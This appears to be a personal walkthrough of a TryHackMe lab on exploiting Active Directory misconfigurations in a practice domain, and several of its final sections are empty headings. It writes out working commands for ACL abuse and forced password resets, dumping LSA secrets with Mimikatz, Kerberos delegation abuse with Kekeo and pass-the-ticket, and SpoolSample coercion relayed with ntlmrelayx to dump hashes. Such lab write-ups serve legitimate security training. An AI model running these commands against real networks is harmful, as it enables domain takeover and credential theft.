


# Exploiting AD

In this room we are going to take a look at different exploits regarding misconfiguration we can take advantagee of in order to attack AD. Before we begin our exercise we need to configure our VPN and DNS. If you are curious how you can do this in Kali and in Windows you can check my previous walkthroughs on "Breaching AD" and "Enumerating AD".

### Exploiting Permission Delegation

First thing I did was to get some credentials from the distributor.za.tryhackme.loc/creds and launch neo4j and bloodhound in order to ingest the zip files containing the .json files that weere extracted by Sharphound.

```
neo4j console
bloodhound --no-sandbox
```

After searching for the path of the user we have credentials over to the tier 2 admins group we can see that with 2 steps we can have control over one of this accounts.


We are a member of the Domain Users group. This group has GenericWrite over the IT Support Group which has the ForceChangePassword ACE over the Tier 2 Admins.

1. By taking advantage of the Generic Write Property we can Add Members to the IT Support Group, meaning we can add our own user to the group.

   

​		

```
Add-ADGroupMember "IT Support" -Members "satah.hilton"
Get-ADGroupMember -Identity "IT Support"
```


2. By being a member of the IT Support Group we can easily change the password of one of the admins without knowing its current password, thus gaining access to that account.

   

```
Get-ADGroupMember -Identity "Tier 2 Admins"
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password 
```


### Exploiting Kerberos Delegation

Load PowerView in order to use the Get-NetUser cmdlet.

```
Import-Module C:\Tools\PowerView.ps1 
Get-NetUser -TrustedToAuth
```

The svcIIS account can delegate the HTTP and WSMAN services on THMSERVER1 which means we can launch a Powershell Session impersonating a different user if we are able to extract the Service Account's password.

We can complete this attack using a combination of Mimikatz to dump LSASecrets from the service account, Kekeo to generate a TGT and TGSs and again Mimikatz to import both TGSs locally to launch a PS Session as an impersonated user.

Let's start!

Dump LSASecrets with mimikatz:

```
token::elevate
lsadump::secrets
```

Now that wee have the password we can generate  tickets with Kekeo:

```
tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:<user> /service:http/THMSERVER1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:<user> /service:wsman/THMSERVER1.za.tryhackme.loc
```

Import the generated TGSs with Mimikatz to perform a PTT attack:

```
privilege::debug
kerberos::ptt TGS_<user>@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_<user>.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

Launch a Powershell Session:

```
New-PSSession -ComputerName thmserver1.za.tryhackme.loc
Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc
```

Great!


### Exploiting Automated Relays

To perform this task we need:

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

Requirement one and two we have already.

Requirement three:

Option 1:

```
GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc
```



The output from the cmdlet verifies that the service is running.

Option 2:

```
Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc
```


Requirement 4:

```
nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc
```


We can see that SMB signing is enabled but not enforced based on the output. This means all our conditions are met, and we can start the attack!

We will use Spoolsample.exe to coerce THMSERVER2 to authenticate to us and then Impacket's ntlmrelayx.py to relay the authentication attempt THMSERVER1.

Setup NTLM Relay:

```
python /path/to/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug
```

Coerce THMSERVER2 to authenticate to us:

```
SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"
```

By specifying no command with the -c flag on the ntlmreelayx command we perform a hasdump:



Finally we can get a shell on THMSERVER1 as one of the users by performing a PTH attack using for example Evil-WinRM:

> Note: The hash we are going to use is the last one on the strings outputted in the console:  


We could also perfom this with other tools (described in the Lateral Movement and Pivoting Module) or even from inside the target host (we needed Admin privileges collected from then previous task in order to do this with Mimiktaz).


### Exploiting AD Users


### Exploiting GPOs


### Exploiting Certificates


### Exploiting Domain Trusts
